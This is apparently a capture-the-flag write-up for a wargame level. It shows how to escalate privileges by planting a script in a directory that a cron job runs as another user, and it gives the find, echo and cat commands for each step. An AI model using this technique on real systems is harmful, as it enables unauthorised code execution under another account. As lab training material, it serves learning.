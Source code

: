# Level05

Let's find all files named after our user.
>`find / -name "*level05" 2>/dev/null`

In `/var/mail/level05` we can find a cron job which executes `/usr/sbin/openarenaserver` as flag05 every 2 minutes.
`/usr/sbin/openarenaserver` is a script which executes every script inside `/opt/openarenaserver` and delete them.

We'll create our own script inside `/opt/openarenaserver`.
>`echo '/bin/getflag > /tmp/flag' > /opt/openarenaserver/getflag`

Get the flag.
>`cat /tmp/flag`
